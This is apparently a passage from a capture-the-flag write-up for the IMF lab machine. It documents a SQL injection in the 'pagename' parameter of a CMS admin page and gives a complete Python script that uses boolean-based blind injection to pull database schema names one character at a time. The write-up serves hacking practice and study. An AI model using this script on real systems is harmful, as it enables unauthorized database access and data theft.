 **Access Gained**: `http://imf.com/imfadministrator/cms.php?pagename=home`

## SQL Injection Exploitation

### Vulnerability Discovery

The `pagename` parameter was vulnerable to SQL injection.

### Automated SQLi Script

Python script developed for database enumeration:

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, sys, time, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characteres = string.ascii_lowercase + "_," + string.digits
main_url = "http://imf.com/imfadministrator/cms.php?pagename="

def sqli():
    headers = {'Cookie': 'PHPSESSID=ajrd8vq0cc5t8p702hguucmvq5'}
    database = ""
    
    p1 = log.progress("SQLI")
    p1.status("Iniciando SQLI")
    time.sleep(2)
    
    p2 = log.progress("Data")
    
    for pos in range(1, 100):
        for ch in characteres:
            sqli_url = main_url + "home' or substring((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s" % (pos, ch)
            
            r = requests.get(sqli_url, headers=headers)
            if "Welcome to the IMF Administration." not in r.text:
                database += ch
                p2.status(database)
                break
    
    p1.success("Ataque SQLI finalizado")
    p2.success(database)

if __name__ == '__main__':
    sqli()
```
